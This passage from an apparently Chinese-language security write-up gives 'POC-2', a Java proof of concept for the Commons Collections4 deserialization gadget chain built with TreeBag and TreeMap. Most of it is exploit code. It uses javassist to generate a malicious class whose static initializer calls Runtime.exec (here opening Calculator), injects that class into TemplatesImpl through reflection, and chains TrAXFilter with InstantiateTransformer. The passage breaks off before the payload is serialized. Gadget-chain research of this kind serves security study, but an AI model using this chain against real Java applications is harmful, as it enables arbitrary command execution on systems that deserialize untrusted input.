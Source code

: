 ### POC-2
相较于`POC-1`，这里使用`TreeBag`和`TreeMap`来替代`PriorityQueue`进行构造。

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 11:26 上午
 */
public class CommonsCollectionsTreeBag {

    public static void CC4() throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

```